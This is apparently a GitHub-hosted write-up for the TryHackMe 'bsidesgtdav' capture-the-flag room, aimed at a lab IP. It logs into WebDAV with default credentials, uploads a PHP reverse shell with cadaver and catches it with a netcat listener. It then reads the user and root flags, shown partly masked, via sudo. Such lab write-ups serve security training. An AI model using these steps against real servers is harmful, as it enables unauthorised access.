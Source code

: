 # bsidesgtdav
Tryhackme (bsidesgtdav) Write Up

webdav default login

http://10.10.135.159/webdav

Username: webdav
Password: xampp


Using (*cadaver*)

put reverse-shell.php

http://10.10.135.159/webdav/reverse-shell.php

nc -lvnp 1234


![image](https://user-images.githubusercontent.com/80600420/147095168-66d56a92-9f49-49f8-9ddd-fbb13fbbdfcf.png)

/home/merlin
$ cat user.txt
```
449b40fe93f78a9***************
```
sudo -l 

![image](https://user-images.githubusercontent.com/80600420/147095353-32624d5f-1498-47ca-a022-5b5d8e1e5cc7.png)

sudo cat /root/root.txt

```
101101ddc16b0c***************
```
